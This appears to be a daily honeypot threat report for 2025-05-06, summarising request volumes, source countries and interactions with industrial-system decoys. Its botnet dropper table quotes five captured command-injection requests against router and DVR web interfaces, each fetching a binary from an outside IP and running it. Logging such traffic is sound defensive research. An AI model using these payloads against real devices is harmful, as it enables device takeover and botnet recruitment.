```yaml
---
title: "Report: 2025-05-06 "
date: 2025-05-06
desciption: "Report: 2025-05-06" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-06 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 5 dropper URL(s).  

There are 145 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1355 requests were recorded during the day, originating from 5 different countries, with a peak of 431 requests coming from NL.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Germany            |
| SG               | Germany            |
| SG               | Germany            |
| US               | Germany            |
| SG               | Germany            |
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                    |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 45.95.147.209  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+sh%3B+wget+http%3A%2F%2F176.65.148.234%2Fsh%3B+chmod+777+sh%3B+.%2Fsh+tplink%3B+rm+-rf+sh%60) HTTP/1.1                                                                                                  |
| 103.77.42.36   | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                                                                                                                                      |
| 141.98.11.137  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+r%3B+wget+http%3A%2F%2F51.38.137.115%2Fr%3B+chmod+777+r%3B+.%2Fr+tplink%3B+rm+-rf+r%60) HTTP/1.1                                                                                                        |
| 185.218.84.39  | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+drea4+arm7;wget+http:/\x5C/176.65.144.76/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.144.76/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1 |
| 196.251.72.142 | GET /shell?cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/italianbrainrot/g4za.x86;chmod+777+g4za.x86;./g4za.x86+jawsbg;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/italianbrainrot/g4za.arm7;chmod+777+g4za.arm7;./g4za.arm7+jawsbg HTTP/1.1                                                 |
